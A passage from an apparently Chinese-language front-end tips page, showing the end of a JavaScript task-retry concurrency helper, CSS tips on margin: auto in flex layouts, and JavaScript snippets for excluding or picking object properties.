// 超过最大重试次数，记录错误
results[currentIndex] = new Error(
`Task ${currentIndex} failed after ${maxRetries} retries: ${lastError.message}`
);
}
}
}
// 无论成功或失败都算完成一个任务
if (++completed === tasks.length) {
resolve(results);
}
}
});
// 等待所有工作线程完成
Promise.allSettled(workers);
});
}
布局小技巧
- flex 布局灵活运用 margin: auto
- 在 flex 容器中，margin: auto 会自动吸收元素周围的可用空间
- margin-left: auto 将元素推到右侧，margin-right: auto 将元素推到左侧
- margin-top: auto 将元素推到底部，margin-bottom: auto 将元素推到顶部
- margin: auto 可以同时作用于水平和垂直方向，实现完美居中
- 可以为多个元素设置不同的 auto margin，实现复杂的空间分配
js 小技巧
-
剔除对象中不需要的属性生成新的对象，常用于组装请求的参数
const originalObj = { name: '张三', age: 25, gender: '男', address: '北京市', phone: '123456789', email: 'zhangsan@example.com', }; const { age, phone, ...newObj } = originalObj; // 剔除不需要的属性 function excludeProperties(obj, propsToRemove) { const propsSet = new Set(propsToRemove); return Object.fromEntries( Object.entries(obj).filter(([key]) => !propsSet.has(key)) ); } // 只保留指定的属性 function pickProperties(obj, propsToKeep) { const propsSet = new Set(propsToKeep); return Object.fromEntries( Object.entries(obj).filter(([key]) => propsSet.has(key)) ); }